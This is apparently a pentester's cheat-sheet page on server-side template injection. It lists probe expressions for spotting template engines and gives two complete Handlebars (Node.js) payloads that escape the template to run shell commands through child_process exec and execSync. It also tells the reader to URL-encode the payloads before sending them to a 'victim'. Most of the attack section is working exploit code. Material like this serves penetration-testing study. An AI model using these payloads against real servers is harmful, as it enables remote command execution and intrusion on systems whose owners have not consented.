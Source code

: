 ```yaml
---
description: Server-side template injection
---
```


# SSTI

<details>

<summary>Intro</summary>

* Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order to execute commands on the server.

<!---->

* SSTI is very common on Node.js websites

</details>

<details>

<summary>Identification</summary>

```bash
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```

* If an SSTI exists, --> web server will detect these expressions as valid code --> attempt to execute them (7\*7=49)
* Look at error messages to identify the template engine being used.

</details>

<details>

<summary>Handlebars (NodeJS)</summary>

Do url-encode the following scripts before sending to the victim (using burp's decoder tab)

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

If the above has `require is not defined`, use the following script instead

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

</details>

